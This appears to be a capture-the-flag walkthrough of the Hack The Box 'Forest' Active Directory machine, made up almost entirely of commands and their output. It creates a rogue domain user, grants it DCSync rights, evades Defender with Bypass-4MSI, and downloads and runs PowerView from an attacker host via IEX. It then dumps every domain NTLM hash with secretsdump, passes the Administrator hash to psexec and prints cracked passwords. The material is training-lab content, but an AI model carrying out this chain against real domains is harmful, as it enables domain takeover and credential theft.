










EXCH1.HTB.local







*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user xmbomb password123 /add /domain
The command completed successfully.


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
The command completed successfully.


net group "Exchange Windows Permissions" /add xmbomb



net localgroup "Remote Management Users" xmbomb /add 


The Bypass-4MSI command is used to evade defender before importing the script

IEX(new-object net.webclient).downloadstring("http://10.10.14.6:9090/powerview.ps1")

$pass =  convertto-securestring "password123" -asplain -force

$cred = new-object system.management.automation.pscredential('htb\xmbomb', $pass)

Add-ObjectACL -PrincipalIdentity xmbomb -Credential $cred -Rights DCSync


 secretsdump.py htb/xmbomb@10.10.10.161 -outputfile ntlm-hashes-dc


htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
xmbomb:7602:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:749fa51700da0d08547303f46101d0d5:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::

psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6


c:\tmp\hashcat-6.1.1>hashcat --user -m1000 forest.ntlm rockyou.txt --show
Guest:31d6cfe0d16ae931b73c59d7e0c089c0:
DefaultAccount:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\$331000-VK4ADACQNUCA:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_2c8eef0a09b545acb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_ca8c2ed5bdab4dc9b:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_75a538d3025e4db9a:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_681f53d4942840e18:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_1b41c9286325456bb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_9b69f1b9d2cc45549:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_7c96b981967141ebb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_c75ee099d0a64c91b:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_1ffab36a2f5f479cb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\svc-alfresco:9248997e4ef68ca2bb47ae4e6f128668:s3rvice
htb.local\santi:483d4c70248510d8e0acb6066cd89072:plokmijnuhb
xmbomb:a9fdfa038c4b75ebc76dc855dd74f0da:password123